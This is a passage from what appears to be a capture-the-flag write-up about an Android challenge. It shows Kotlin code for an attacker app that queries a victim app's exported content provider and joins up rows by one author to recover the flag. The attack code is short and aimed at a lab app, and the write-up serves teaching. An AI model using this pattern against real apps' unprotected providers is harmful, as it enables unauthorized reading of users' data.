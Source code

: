     static final UriMatcher uriMatcher;
        static{
            uriMatcher = new UriMatcher(UriMatcher.NO_MATCH);
            uriMatcher.addURI(PROVIDER_NAME, TABLE_NAME, uriCode);
        }
    ```
- we have some useful constants discovered on the way:
  ```kotlin
  companion object {
      const val PROVIDER_NAME = "com.example.victimapp.MyProvider"
      const val TABLE_NAME = "joke"
      const val URL = "content://$PROVIDER_NAME/$TABLE_NAME"
      const val REQUIRED_AUTHOR = "elosiouk"
  }
  ```
- onCreate, we query the provider with a custom function, `queryContentProvider()`, which does the complex job:
  ```kotlin
  fun queryContentProvider() {
      try {
          val cursor = contentResolver.query(
              URL.toUri(),
              arrayOf("*"),
              "",
              null,
              null,
          )
          log("found ${cursor!!.count}")
          cursor.moveToFirst()
          var flag = ""

          while (!cursor.isLast) {
              val id = cursor.getString(cursor.getColumnIndexOrThrow("id"))
              val author = cursor.getString(cursor.getColumnIndexOrThrow("author"))
              val joke = cursor.getString(cursor.getColumnIndexOrThrow("joke"))
              log("Processing row $id...")
              if (author.equals(REQUIRED_AUTHOR)) {
                  flag += joke
                  log("\tfound author match!")
              }
              cursor.moveToNext()
          }

          cursor.close()

          log("***")
          log(flag)
          Toast.makeText(this, "The flag is: $flag", Toast.LENGTH_LONG).show()
          findViewById<TextView>(R.id.flag).text = flag
      } catch (e: Exception) {
          log("err: ${e.stackTraceToString()}")
      }
  }
  ```
  the querying mechanism is sql-like, you just need to experiment with the results and see what you got there
